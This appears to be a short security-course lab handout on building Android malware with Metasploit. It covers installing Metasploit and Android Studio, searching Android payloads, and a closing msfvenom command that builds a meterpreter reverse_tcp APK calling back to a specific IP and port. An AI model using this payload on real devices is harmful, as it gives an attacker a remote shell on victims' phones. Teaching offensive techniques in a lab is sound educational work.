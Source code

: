# Lab 7: Developing Mobile Malware

## Set-up

Install [Metasploit](https://www.metasploit.com/) Module


```sh
$ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
$ chmod 755 msfinstall
$ ./msfinstall
```

Install [Android Studio](https://developer.android.com/studio)

```
$ wget https://redirector.gvt1.com/edgedl/android/studio/ide-zips/4.2.1.0/android-studio-ide-202.7351085-linux.tar.gz
$ sudo tar -xzf android-studio-ide-202.7351085-linux.tar.gz -C /usr/local
$ sudo ./usr/local/android-studio/bin/studio.sh
```

Install [Keytool]()

## Explore Metasploits [^ex]

```
$ msfconsole
msf >  search type:payload platform:android
```

Create a reversed TCP

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=141.210.133.38 LPORT=4444 -f raw -o reverse_tcp.apk
```

[^ex]: https://www.hackers-arise.com/post/2018/07/06/metasploit-basics-part-13-exploiting-android-mobile-devices

